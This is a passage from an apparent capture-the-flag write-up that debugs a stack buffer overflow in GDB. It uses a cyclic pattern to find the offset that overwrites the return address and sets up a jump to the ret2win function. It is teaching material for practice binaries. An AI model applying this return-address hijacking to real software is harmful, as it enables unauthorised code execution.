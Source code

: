 ```
gef➤  b *0x0000000000400755
Breakpoint 2 at 0x400755
```
and run
```
gef➤  r
```
we will hit the first break point before calling `read` 
so let's continue untill it hits `ret` breakpoint

```
gef➤  c
```

*it will wait for input again, so paste the same pattern from before and hit enter.*

now we're right before executing `ret` instruction.
we can check by typing:
```
gef➤  x/i $rip
=> 0x400755 <pwnme+109>:        ret 
```

`x` for examine memory.
`i` for instruction.
`ip` instruction pointer (r for 64-bit)

as we can see we're about to execute ret instruction.
we need to see what rsp is pointing to (stack pointer)

```
Note:
	to redirect the execution, we exploit how ret instruction works.
	when the program hit ret instruction in the execution, it jumps to
	whatever address is pointed to by rsp (stack pointer) and it 
	executes from there
	
	copy $rsp (stack pointer) ==to=> $rip (instruction pointer)
```

* Let's check the stack:

```
gef➤  x/gx $rsp
0x7fffffffe058: 0x6161616161616166
```
or
```
gef➤  x/s $rsp
0x7fffffffe058: "faaaaaaagaaaaaaa\v\216\341\367\377\177"
```

you'll notice now that the stack pointer now is not pointing to the begining of the pattern we passed, but instead to `0x6161616161616166` which is `faaaaaaa`

Now we know why there was a segmentation fault!
Its because the program was trying to jump to the address `0x6161616161616166` but this address is invalid so it gives an error instead.
so if we replace `faaaaaaa` by `BBBBBBBB` in the pattern that we passed it will point to `BBBBBBBB` which is `0x4242424242424242` instead. in other words, if we somehow pass a valid address, it will jump to that valid address, in our case we wanna jump to an address called `ret2win`.
let's examine `ret2win` address
